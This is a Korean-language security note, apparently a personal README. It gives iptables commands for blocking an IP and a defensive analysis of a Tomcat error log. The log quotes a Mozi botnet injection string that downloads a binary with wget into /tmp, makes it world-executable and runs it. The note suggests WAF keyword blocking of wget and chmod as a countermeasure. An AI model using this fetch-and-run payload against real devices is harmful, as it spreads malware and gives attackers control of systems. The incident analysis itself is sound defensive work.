


# IP 차단

- 인바운드/아웃바운드 차단

> sudo iptables -A INPUT -s {차단할_IP} -j DROP

> sudo iptables -A OUTPUT -d {차단할_IP} -j DROP

- 재부팅시에도 유지 
> sudo iptables-save | sudo tee /etc/iptables/rules.v4


- 저장되어 있는 규칙 확인
> sudo iptables -L -n -v




## 공격 로그




---

## 웹 해킹 


## 에러 분석 및 대응 방법

### 1. **에러 분석**

```
java.lang.IllegalArgumentException: Invalid character found in method name [27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ ]
```

#### **원인 분석**
1. **Invalid character found in method name**:
    - HTTP 요청의 메서드 이름에서 유효하지 않은 문자가 발견됨.
    - HTTP 메서드는 일반적으로 `GET`, `POST`, `PUT`, `DELETE` 등으로 구성되어야 하지만, 메서드 이름에 명령어 문자열이 포함되어 있어 에러 발생.

2. **Request details**:
    - 요청에 포함된 `wget http://%s:%d/Mozi.m`은 파일 다운로드 명령어로 보이며, 이는 **공격자가 악성 파일을 다운로드하고 실행**하려는 시도.

3. **`wget`**:
    - Linux/Unix 시스템에서 URL을 통해 파일을 다운로드하는 명령어.
    - **리모트 코드 실행(Remote Code Execution, RCE)** 공격에서 악성 스크립트를 다운로드할 때 자주 사용됨.

4. **`/tmp/Mozi.m`**:
    - 다운로드하려는 파일의 저장 경로.
    - `/tmp/` 디렉터리는 임시 파일 저장소로 악성 파일이 실행될 위험이 있음.

5. **`chmod 777`**:
    - **모든 사용자에게 읽기, 쓰기, 실행 권한을 부여**하는 명령어.
    - 이를 통해 공격자가 다운로드한 악성 파일을 실행 가능하게 만듦.

---

### 2. **공격 패턴**
- 이 요청은 **웹 쉘(Web Shell) 공격**의 일부일 가능성이 높음.
- 공격자는 리모트 코드 실행(RCE)을 통해 서버에 악성 파일을 다운로드하고, 권한을 부여하여 실행하려는 시도를 하고 있음.

---

### 3. **가능한 대응 방법**

#### 1. **웹 방화벽(WAF) 적용**
- **WAF**를 통해 악성 요청을 필터링.
- `wget`, `chmod`와 같은 명령어를 포함한 요청을 차단.

#### 2. **로그 분석 및 모니터링 강화**
- 해당 요청이 발생한 **IP 주소 추적**:
    - 악성 요청의 출처를 확인하고, 비정상적인 활동을 탐지.
    - 관련 IP를 방화벽에서 **차단**.

#### 3. **서버 보안 강화**
- 서버의 보안 패치 업데이트:
    - 최신 상태로 유지하여 알려진 취약점을 차단.
- **파일 업로드 제한 및 디렉터리 권한 강화**:
    - `/tmp/`와 같은 디렉터리에서 실행 권한을 제거하여 악성 파일 실행 방지.

#### 4. **입력 검증 강화**
- **요청 입력 검증**:
    - 클라이언트에서 보내는 모든 입력을 철저히 검사.
    - 특수 문자나 의심스러운 문자열이 포함된 요청은 차단.

---

### 4. **결론**
- 이 로그는 **리모트 코드 실행 공격**의 일부로, 악성 파일을 서버에 다운로드하고 실행하려는 시도로 분석됨.
- 공격을 방지하기 위해:
    1. **웹 방화벽(WAF)**로 악성 요청 필터링.
    2. **보안 패치** 및 **권한 설정 강화**.
    3. **입력 검증**을 통해 악성 요청을 차단.

---

